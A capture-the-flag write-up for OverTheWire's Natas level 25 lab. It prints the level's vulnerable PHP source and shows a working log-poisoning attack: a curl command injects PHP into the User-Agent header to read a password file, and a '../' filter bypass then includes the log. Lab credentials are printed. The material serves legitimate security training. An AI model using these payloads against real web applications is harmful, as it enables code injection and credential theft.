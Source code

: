 # Natas Level 25
```bash
Username: natas25
Password: GHF6X7YwACaYYssHVY05cFq83hRktl4c
URL:      http://natas25.natas.labs.overthewire.org
```
We enter the site, and see the following page:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas24.png" />
    <div align="center">Natas 25</div>
</figure>

And the [source code](http://natas25.natas.labs.overthewire.org/index-source.html):
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas24-view-sourcecode.png" />
    <div align="center">Natas 25 - View sourcecode</div>
</figure>

We can see two relevant parts:
```php
<?php
    // cheers and <3 to malvina
    // - morla

    function setLanguage(){
        /* language setup */
        if(array_key_exists("lang",$_REQUEST))
            if(safeinclude("language/" . $_REQUEST["lang"] ))
                return 1;
        safeinclude("language/en"); 
    }
    
    function safeinclude($filename){
        // check for directory traversal
        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
        // dont let ppl steal our passwords
        if(strstr($filename,"natas_webpass")){
            logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
        // add more checks...

        if (file_exists($filename)) { 
            include($filename);
            return 1;
        }
        return 0;
    }
    
    function listFiles($path){
        $listoffiles=array();
        if ($handle = opendir($path))
            while (false !== ($file = readdir($handle)))
                if ($file != "." && $file != "..")
                    $listoffiles[]=$file;
        
        closedir($handle);
        return $listoffiles;
    } 
    
    function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
    }
?>
```

And:
```php
<form>
<select name='lang' onchange='this.form.submit()'>
<option>language</option>
<?php foreach(listFiles("language/") as $f) echo "<option>$f</option>"; ?>
</select>
</form>
</div>

<?php  
    session_start();
    setLanguage();
    
    echo "<h2>$__GREETING</h2>";
    echo "<p align=\"justify\">$__MSG";
    echo "<div align=\"right\"><h6>$__FOOTER</h6><div>";
?>
```

The select box contains options for each file in "language" directory.

The second script calling *setLanguage* and then echos to the page three variables:
* $__GREETING
* $__MSG
* $__FOOTER

The first script contains the definition of *setLanguage*.

If found GET parameter "lang", it "*safeinclude"* the file "language/&lt;lang&gt; (the default is en).

*safeinclude* first checks for path traversal (../) and replaces each "../" with "",

then it checks if the string "natas_webpass" found in the filename (if true, calling *logRequest* and returns), and finally, if the file exists, it includes it.

Lets take a look at [language/en](http://natas25.natas.labs.overthewire.org/language/en):
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas25-language-en.png" />
    <div align="center">Natas 25 - language/en</div>
</figure>

It declares the three global variables.

Lets understand the *logRequest* function.

It concatenates the current time, $_SERVER['HTTP_USER_AGENT'] and the message, and saves it to file.

We can preform [log poisioning](https://www.owasp.org/index.php/Log_Injection) (include some PHP code in the user agent), and after that traverse and view the log.
In order to bypass the "../" checking, we can write: "../<strong>.</strong>../<strong>.</strong>../<strong>/</strong>"

Lets use cURL for the log poisioning:
```bash
curl -u natas25:GHF6X7YwACaYYssHVY05cFq83hRktl4c -A "<?php include('/etc/natas_webpass/natas26') ?>" -v 'http://natas25.natas.labs.overthewire.org/?lang=../'
```

We get:
```bash
* Trying 176.9.9.172...
* Connected to natas25.natas.labs.overthewire.org (176.9.9.172) port 80 (#0)
* Server auth using Basic with user 'natas25'
> GET /?lang=../ HTTP/1.1
> Host: natas25.natas.labs.overthewire.org
> Authorization: Basic bmF0YXMyNTpHSEY2WDdZd0FDYVlZc3NIVlkwNWNGcTgzaFJrdGw0Yw==
> User-Agent: <?php include('/etc/natas_webpass/natas26') ?>
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Sun, 27 May 2018 14:36:49 GMT
< Server: Apache/2.4.10 (Debian)
< Set-Cookie: PHPSESSID=bbqqe3jnomm3rbihup8fu1d8p0; path=/; HttpOnly
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
< Vary: Accept-Encoding
< Content-Length: 1859
< Content-Type: text/html; charset=UTF-8
< 
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src="http://natas.labs.overthewire.org/js/wechall-data.js"></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas25", "pass": "GHF6X7YwACaYYssHVY05cFq83hRktl4c" };</script></head>
<body>

<h1>natas25</h1>
<div id="content">
<div align="right">
<form>
<select name='lang' onchange='this.form.submit()'>
<option>language</option>
<option>en</option><option>de</option></select>
</form>
</div>

<br />
<b>Warning</b>: include(/var/www/natas/natas25/language): failed to open stream: No such file or directory in <b>/var/www/natas/natas25/index.php</b> on line <b>38</b><br />
<br />
<b>Warning</b>: include(): Failed opening 'language/' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in <b>/var/www/natas/natas25/index.php</b> on line <b>38</b><br />
<br />
<b>Notice</b>: Undefined variable: __GREETING in <b>/var/www/natas/natas25/index.php</b> on line <b>80</b><br />
<h2></h2><br />
<b>Notice</b>: Undefined variable: __MSG in <b>/var/www/natas/natas25/index.php</b> on line <b>81</b><br />
<p align="justify"><br />
<b>Notice</b>: Undefined variable: __FOOTER in <b>/var/www/natas/natas25/index.php</b> on line <b>82</b><br />
<div align="right"><h6></h6><div><p>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
* Connection #0 to host natas25.natas.labs.overthewire.org left intact
```

PHPSESSID is: <strong>bbqqe3jnomm3rbihup8fu1d8p0</strong>

Lets take a look in a path traversal [attempt](http://natas25.natas.labs.overthewire.org/?lang=../):
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas25-traversal-attempt.png" />
    <div align="center">Natas 25 - Path traversal attempt</div>
</figure>

We are here <b>/var/www/natas/natas25/index.php</b>,

and the logs are being saved in: "<strong>/var/www/natas/natas25/logs/natas25_" . session_id() .".log"</strong>

All we need is to traverse one time up and open this file: <strong>logs/natas25_bbqqe3jnomm3rbihup8fu1d8p0.log</strong>,

lets [do](http://natas25.natas.labs.overthewire.org/?lang=../.../...//logs/natas25_bbqqe3jnomm3rbihup8fu1d8p0.log) this:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas25-pwned.png" />
    <div align="center">Natas 25 - PWNed</div>
</figure>

We got the password for the next level: **oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T**